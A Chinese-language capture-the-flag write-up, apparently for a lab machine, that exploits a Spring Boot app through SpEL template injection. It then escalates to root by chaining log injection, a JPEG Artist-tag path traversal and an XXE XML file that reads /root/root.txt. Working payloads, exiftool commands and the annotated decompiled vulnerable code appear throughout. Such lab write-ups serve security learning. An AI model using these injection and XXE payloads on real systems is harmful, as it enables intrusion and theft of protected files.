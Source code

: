 nmap扫描结果

![](https://img.mi3aka.eu.org/2022/08/aa9033ebdaf3e1e2eed01710e78200f0.png)

---

![](https://img.mi3aka.eu.org/2022/08/eae1e19e3e0ed71b124c6068eb14b025.png)

题目提示`injection`,推测为sql注入或者是模板注入

在测试时发现`%`被过滤,因此进行fuzz操作,发现`%_$~`被过滤

![](https://img.mi3aka.eu.org/2022/08/1d060b3584f5cc9f3a8d3f6bf8e83fe6.png)

同时发现请求`/favicon.ico`时返回`404`json且网页标题提示为`Spring Boot`,结合过滤的内容,推测为`Spring Boot`模板注入

![](https://img.mi3aka.eu.org/2022/08/971622a78107de97d933882ad1a0d3de.png)

一顿操作后,得到模板注入为`*{{xxx}}`

![](https://img.mi3aka.eu.org/2022/08/7f7144d8ff7071b7aa8ff3959f189261.png)

利用`name=*{{new+java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("sleep+5").getInputStream()).next()}}`成功执行命令

![](https://img.mi3aka.eu.org/2022/08/7fad1e602179aa33e9f8b0a49c5ff971.png)

直接反弹好像会出问题,把反弹shell命令写成脚本传到服务器上再进行反弹

![](https://img.mi3aka.eu.org/2022/08/7e35370c34e98917b62d719a2c219a87.png)

---

![](https://img.mi3aka.eu.org/2022/08/0fc87c3919a6ab2cadc6bc2e762c3918.png)

`find / -user root -perm -4000 -print 2>/dev/null`没发现可以利用的点

pspy监控如下

![](https://img.mi3aka.eu.org/2022/08/1508a70491988b9b2c20abd3ee696fef.png)

`/opt/cleanup.sh`

```bash
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

`/opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar`

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.logparser;

import com.drew.imaging.jpeg.JpegMetadataReader;
import com.drew.imaging.jpeg.JpegProcessingException;
import com.drew.metadata.Directory;
import com.drew.metadata.Metadata;
import com.drew.metadata.Tag;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.util.HashMap;
import java.util.Iterator;
import java.util.Map;
import java.util.Scanner;
import org.jdom2.Document;
import org.jdom2.Element;
import org.jdom2.JDOMException;
import org.jdom2.input.SAXBuilder;
import org.jdom2.output.Format;
import org.jdom2.output.XMLOutputter;

public class App {
    public App() {
    }

    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        return map;
    }

    public static boolean isImage(String filename) {
        return filename.contains(".jpg");
    }

    public static String getArtist(String uri) throws IOException, JpegProcessingException {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;//目录穿越,注意这里没有使用/进行闭合
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);//文件必须为jpg
        Iterator var4 = metadata.getDirectories().iterator();

        while(var4.hasNext()) {
            Directory dir = (Directory)var4.next();
            Iterator var6 = dir.getTags().iterator();

            while(var6.hasNext()) {
                Tag tag = (Tag)var6.next();
                if (tag.getTagName() == "Artist") {//利用exiftools构建图片,手动指定Artist的值
                    return tag.getDescription();
                }
            }
        }

        return "N/A";
    }

    public static void addViewTo(String path, String uri) throws JDOMException, IOException {
        SAXBuilder saxBuilder = new SAXBuilder();//SAXBuilder如果使用默认配置就会触发XXE漏洞
        XMLOutputter xmlOutput = new XMLOutputter();
        xmlOutput.setFormat(Format.getPrettyFormat());
        File fd = new File(path);
        Document doc = saxBuilder.build(fd);
        Element rootElement = doc.getRootElement();
        Iterator var7 = rootElement.getChildren().iterator();

        while(var7.hasNext()) {
            Element el = (Element)var7.next();
            if (el.getName() == "image" && el.getChild("uri").getText().equals(uri)) {//存在image项且uri与传入的uri相同
                Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                System.out.println("Total views:" + Integer.toString(totalviews));
                rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                Integer views = Integer.parseInt(el.getChild("views").getText());
                el.getChild("views").setText(Integer.toString(views + 1));
            }
        }

        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }

    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);

        while(log_reader.hasNextLine()) {
            String line = log_reader.nextLine();
            if (isImage(line)) {//isImage(line) 这一行中包含 .jpg
                Map parsed_data = parseLog(line);
                System.out.println(parsed_data.get("uri"));
                String artist = getArtist(parsed_data.get("uri").toString());//artist可控
                System.out.println("Artist: " + artist);
                String xmlPath = "/credits/" + artist + "_creds.xml";
                addViewTo(xmlPath, parsed_data.get("uri").toString());//xmlPath->任意目录的xml文件
            }
        }

    }
}
```

1. /opt/panda_search/redpanda.log

```java
分割符号为||
public class test {
    public static void main(String[] args) {
        String a="asdlkfj||qwer";
        System.out.println(Arrays.toString(a.split("\\|\\|")));
    }
}

[asdlkfj, qwer]

map.put("status_code", Integer.parseInt(strings[0]));
map.put("ip", strings[1]);
map.put("user_agent", strings[2]);
map.put("uri", strings[3]);

log日志内容为

200||1.1.1.1||Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36||/../../../../../../../../../../tmp/xxx.jpg
```

2. uri

```
/../../../../../../../../../../tmp/xxx.jpg

exiftool -Artist="../../../tmp/xxx" xxx.jpg

把xxx.jpg上传到服务器的/tmp目录
```

![](https://img.mi3aka.eu.org/2022/08/7b8be19e30b6aff68f71448e6b68fd82.png)

3. xmlPath

```
得到的artist为../../../tmp/xxx

生成的xmlPath为/credits/../../../tmp/xxx_creds.xml
```

4. xml内容

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY flag SYSTEM "file:///root/root.txt">
]>
<credits>
  <image>
    <uri>/../../../../../../../../../../tmp/xxx.jpg</uri>
    <views>1</views>
    <x>&flag;</x>
  </image>
  <totalviews>1</totalviews>
</credits>
```

在`java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar`完成后`/tmp/xxx_creds.xml`中的内容将被修改为`/root/root.txt`中的内容

![](https://img.mi3aka.eu.org/2022/08/94a6ee60ce0a576659daf235db011df7.png)